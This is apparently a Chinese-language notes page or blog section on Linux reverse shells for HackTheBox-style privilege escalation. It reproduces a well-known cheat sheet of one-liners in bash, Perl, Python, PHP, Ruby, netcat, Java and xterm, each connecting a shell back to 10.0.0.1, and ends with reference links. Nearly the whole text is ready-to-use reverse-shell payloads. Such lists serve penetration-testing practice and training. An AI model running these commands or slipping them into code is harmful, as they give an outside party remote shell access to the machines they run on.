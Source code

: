 ### 2.5 Linux下反弹she命令

Hackthebox经典提权：

**Bash**-
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
    
        

**PERL**-
Here’s a shorter, feature-free version of the perl-reverse-shell:

    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    
        

There’s also an alternative PERL revere shell here.

**Python**-
This was tested under Linux / Python 2.7:

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
        

**PHP**-
This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6…

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    
        

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

**Ruby**

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
        

**Netcat**-
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

    nc -e /bin/sh 10.0.0.1 1234
    
        

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
    
        

**Java**

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    
        

\[Untested submission from anonymous reader\]

**xterm**-
One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

    xterm -display 10.0.0.1:1
    
        

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

    Xnest :1
    
        

You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip
    
        

* * *

    http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet   --参考文章
    
        

* * *

shell文章：

    https://www.cnblogs.com/p0pl4r/p/10643541.html 
    
    https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html
    
    https://xz.aliyun.com/t/2548  --Linux反弹shell（一）文件描述符与重定向
    https://xz.aliyun.com/t/2549   --Linux 反弹shell（二）反弹shell的本质
    
        

打过靶机的应该都会…

* * *